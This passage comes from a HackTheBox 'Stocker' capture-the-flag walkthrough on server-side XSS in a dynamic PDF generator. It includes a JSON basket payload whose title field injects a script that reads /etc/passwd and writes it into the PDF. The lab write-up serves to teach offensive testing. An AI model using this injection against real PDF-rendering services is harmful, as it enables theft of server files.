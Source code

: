   <img src="/images/walkthroughs/hackthebox/stocker/5_1_xss.png" width="70%"/>
</p>

Digging depper about the vulnerability, we found the [following CTF writeup](https://lbherrera.github.io/lab/h1415-ctf-writeup.html). Also there is a [HackTricks](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf) section for these kind of vulnerabilities. Let's try to exfiltrate /etc/passwd. 


```json
{
    "basket": [
        {
            "amount": 1,
            "currentStock": 4,
            "image": "red-cup.jpg",
            "price": 32,
            "_id": "638f116eeb060210cbd83a8d",
            "title": "<p style=\"width: 50%\"><script>x=new XMLHttpRequest;x.onload=function(){document.write(btoa(this.responseText))};x.open(\"GET\",\"file:///etc/passwd\");x.send();</script></p>",
            "description": "It's a red cup.",
            "__v": 0
        }
    ]
}
```

We actually retrieve the /etc/passwd file but it is tructated due to the PDF size:

<p align="center">